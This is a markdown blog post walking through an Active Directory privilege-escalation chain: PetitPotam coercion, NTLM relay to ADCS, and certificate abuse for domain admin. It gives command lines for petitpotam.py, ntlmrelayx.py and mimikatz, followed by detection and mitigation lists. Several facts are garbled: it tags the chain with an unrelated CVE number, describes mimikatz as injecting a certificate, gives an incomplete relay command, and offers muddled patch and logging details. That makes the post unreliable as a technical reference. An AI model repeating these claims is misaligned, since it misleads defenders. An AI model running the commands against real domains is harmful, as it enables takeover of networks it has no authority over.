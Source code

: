 ```yaml
---
title: Exploiting CVE-2021-26414 PetitPotam, ADCS, and Domain Compromise
published: 2025-04-10
updated: 2025-04-10
description: 'A deep dive into the CVE-2021-26414 exploit chain: PetitPotam, NTLM relay attacks, and ADCS misconfigurations for privilege escalation.'
image: 'CVE-2021-26414.webp'
tags: ['CVEs']
category: 'Active Directory Attacks'
draft: false
lang: 'ar-eng'
---
```



## **Table of Contents**  
1. Introduction to CVE-2021-26414: A Critical Privilege Escalation Vulnerability
2. Understanding the Vulnerability: PetitPotam and ADCS Misconfiguration 
3. Exploitation Mechanism of CVE-2021-26414**  
4. Step-by-Step Exploitation Process
5. Post-Exploitation: Gaining Domain Admin Privileges
6. Detection Strategies for CVE-2021-26414
7. Mitigation and Best Practices to Prevent Exploitation
8. onclusion and Key Takeaways 
9. References for Further Readin


> **⚠️ Caution:** #FreePalestine

---

**CVE-2021-26414** is a **privilege escalation vulnerability** that leverages a combination of **PetitPotam** (which exploits the **MS-EFSRPC** protocol) and **Active Directory Certificate Services (ADCS)**. The vulnerability allows an attacker to escalate their privileges to **Domain Admin** (DA) by exploiting **NTLM relay attacks** and **ADCS misconfigurations**. This vulnerability primarily affects **Windows Server versions** and can lead to full domain compromise.

### **`PetitPotam Overview`**

PetitPotam exploits the **Microsoft Encrypting File System Remote Protocol (MS-EFSRPC)**, which is used for **file encryption and decryption** on Windows machines. This protocol can be abused to force a machine to authenticate via **NTLM** and can lead to **NTLM relay attacks** when the **MS-EFSRPC** service is misconfigured.

### **`ADCS Overview`**

**Active Directory Certificate Services (ADCS)** is a service that allows an organization to issue **public key certificates** for users, devices, and services within a **Windows domain**. If ADCS is improperly configured, an attacker can request certificates they are not authorized for, enabling them to impersonate high-privilege accounts like **Domain Admins**.

### `**2. Exploitation Mechanism**`

### **PetitPotam Tool: Abusing MS-EFSRPC for NTLM Authentication Relay**

1. **PetitPotam** abuses the **MS-EFSRPC** protocol by forcing a vulnerable **domain controller** (DC) or **Windows machine** to authenticate using **NTLM authentication**. The tool makes the target system request NTLM authentication, which can then be intercepted and relayed.
2. The attacker uses a tool like **Impacket's `ntlmrelayx.py`** to **relay the NTLM hash** to an **Active Directory Certificate Services (ADCS)** server.
3. **ADCS** can be misconfigured in such a way that it issues certificates to unauthorized users. By relaying the NTLM authentication to the **ADCS server**, the attacker can impersonate **Domain Admins**.

---

### **`3. Step-by-Step Exploitation of CVE-2021-26414`**

### **Step 1: Attacker’s Setup**

The attacker needs a **low-privileged user account** within the domain, and the **target system** (usually the **Domain Controller** or a machine communicating with ADCS) must have the **MS-EFSRPC** service running and vulnerable to the PetitPotam attack.

### **Step 2: Triggering MS-EFSRPC Authentication**

The **PetitPotam** tool will exploit the **MS-EFSRPC** vulnerability to trigger NTLM authentication. PetitPotam forces the **target system** to authenticate with NTLM, making it vulnerable to relay attacks.

### **`Command to Run PetitPotam**:`

```abap
# Running PetitPotam tool to trigger NTLM authentication relay
python3 petitpotam.py <target-dc-ip> <attacker-ip>

```

- **<target-dc-ip>**: IP address of the **Domain Controller** or the vulnerable system.
- **<attacker-ip>**: IP address of the attacker’s machine.

This sends an **NTLM authentication request** to the attacker's machine.

### **`Step 3: Relay NTLM Authentication to ADCS Server`**

Once the **NTLM request** is triggered, the attacker can use **Impacket's `ntlmrelayx.py`** to **relay** the authentication to the **ADCS server**.

### **Impacket Relay Command**:

```abap
Use ntlmrelayx to relay NTLM authentication to ADCS server

python3 [ntlmrelayx.py](http://ntlmrelayx.py/) -t http://<adcs-server>/certsrv
```

- **<adcs-server>**: The IP address or hostname of the **ADCS server**.

This step **relays the NTLM hash** from the DC to the ADCS server, where the attacker can **request a certificate**.

### **`Step 4: Request Certificate with Relayed NTLM Authentication`**

By exploiting the **NTLM relay**, the attacker gets a **certificate** from the ADCS server that can be used to impersonate a **Domain Admin**.

If **ADCS** is improperly configured and doesn't restrict certificate requests, the attacker can request a certificate for any **privileged account** (like **Domain Admin**).

---

### **`Post-Exploitation: Impersonating Domain Admin`**

Once the attacker receives the **privileged certificate**, they can use tools like **Mimikatz** to inject it into their **Kerberos ticket cache**.

### **Mimikatz Command to Inject Certificate**:

```abap
# Inject the certificate into the Kerberos ticket cache
mimikatz.exe "kerberos::ptt <certificate-file>"

```

This allows the attacker to **authenticate** as the **Domain Admin** and gain **Domain Admin privileges**.

---

### **`5. Detection and Mitigation`**

### **Detection**

1. **Event Logs (Event ID 4648)**:
    - When an **NTLM authentication request** is made with explicit credentials, **Event ID 4648** is generated. This event can help identify unauthorized NTLM authentication attempts.
2. **Network Traffic Monitoring**:
    - Watch for unusual **RPC** or **SMB** traffic patterns. This is particularly important to detect **NTLM relay attempts** and **PetitPotam abuse**.
3. **Monitoring Certificate Requests**:
    - Monitor certificate requests from machines that are not **authorized** to request privileged certificates. **ADCS logging** can help identify when **unauthorized certificate requests** are made.
4. **SMB and RPC Anomalies**:
    - Look for anomalies in **SMB** or **RPC** traffic, especially **NTLM authentication relays** that target **ADCS servers**.

### **Mitigation**

1. **Apply Microsoft’s March 2022 Patch**:
    - Microsoft released a patch to fix **CVE-2021-26414**. Ensure that the patch is applied to **all Windows servers** running **MS-EFSRPC** and **ADCS**.
2. **Disable MS-EFSRPC if Not Required**:
    - If **MS-EFSRPC** is not needed for your environment, **disable the service** to prevent exploitation.
3. **Restrict Access to ADCS**:
    - Limit who can request certificates from the **ADCS server** by applying proper **role-based access control**. Ensure that only **authorized accounts** (e.g., **Domain Admins**) can request certificates.
4. **Force SMB Signing**:
    - **SMB signing** ensures that SMB traffic cannot be **intercepted** or **modified**, which helps prevent **NTLM relay attacks**.
5. **Enforce NTLMv2**:
    - Disable **NTLMv1** and enforce **NTLMv2** in your domain to mitigate relay attacks that rely on **NTLM**.
6. **Audit and Restrict SMB Permissions**:
    - Audit and restrict **SMB shares** to prevent unauthorized access. **SMB permissions** should be tightly controlled.

---

### **`6. Conclusion and Key Takeaways`**

**CVE-2021-26414 (PetitPotam + ADCS)** is a serious **privilege escalation** vulnerability in Windows domains. By exploiting the **MS-EFSRPC** protocol via **PetitPotam** and relaying the **NTLM authentication** to a **misconfigured ADCS server**, attackers can obtain **Domain Admin** privileges.

To prevent such attacks, organizations should **apply patches**, **disable unnecessary services**, and carefully **audit** their Active Directory environments for misconfigurations. Monitoring **network traffic** and **event logs** for signs of exploitation is crucial for early detection.

---

### `**References for Further Reading**`

- [**Microsoft Security Advisory CVE-2021-26414**](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26414)
- [**PetitPotam Tool** (GitHub)](https://github.com/fireshare/PetitPotam)
- [**Impacket NTLM Relay** (GitHub)](https://github.com/SecureAuthCorp/impacket)
- [**Mimikatz GitHub**](https://github.com/gentilkiwi/mimikatz)